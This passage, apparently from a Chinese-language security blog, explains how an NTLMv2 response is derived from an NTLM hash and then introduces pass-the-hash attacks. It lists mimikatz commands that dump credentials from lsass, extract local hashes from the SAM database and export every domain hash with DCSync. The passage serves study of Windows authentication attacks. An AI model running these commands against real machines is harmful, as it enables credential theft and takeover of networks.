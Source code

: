计算得到NTLM hash：32ed87bdb5fdc5e9cba88547376818d4 

->将用户名转化为大写:TESTUSER

->用户名和domain拼接在一起（domain or server name的值，区分大小写）：TESTUSERHACK

->计算拼接所得字符串的Unicode十六进制字符串：540045005300540055005300450052004800410043004b

->将NTLM hash作为HMAC MD5的消息认证算法的key(不区分大小写)，加密得到的unicode字符串生成NTLMv2散列：428c8c265137d26b0e3991a9d100eb6d

->连接质询消息中的challenge和blob:   0123456789abcdef010000......

->使用NTLMv2散列作为密钥，对连接的字符串做HMAC-MD5消息认证码算法，产生一个16字节的hash输出：5185e2269d787185b15a98e704acfd31

->产生的16字节输出与blob连接生成NTLMv2响应：5185e2269d787185b15a98e704acfd3101000......

## PTH攻击

+ 为什么能够执行哈希传递攻击,由于LM hash在2012R2之后默认禁用了，这里只说NTLM Hash的情况，在type3计算response的时候，客户端是使用用户的hash进行计算的，而不是用户密码进行计算的。因此在模拟用户登录的时候。是不需要用户明文密码的，只需要用户hash。
+ 关于补丁kb2871997，能够缓解PTH，还能阻止mimikatz抓取明文密码，后面再来说，先来看最简单的情况

### mimikatz直接抓取hash进行传递

+ 抓取阶段

这种都是没有打补丁，mimikatz能够直接抓的情况，上传mimikatz执行命令抓取hash

```shell
#读取lsass的进程信息
privilege::debug
sekurlsa::msv
```

![sekurlsamsv](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long-long/sekurlsamsv.png)

```shell
#获取全部用户的密钥和明文
privilege::debug
sekurlsa::logonPasswords full
```

![sekurlsalogon](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long-long/sekurlsalogon.png)

```shell
#读取SAM数据库获取用户Hash,获取系统所有本地用户的hash
privilege::debug
token::elevate
lsadump::sam
```

![samlocal](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long-long/samlocal.png)

```shell
#使用DCSync导出域内所有用户的hash
lsadump::dcsync /domain:hack.com /all /csv
```
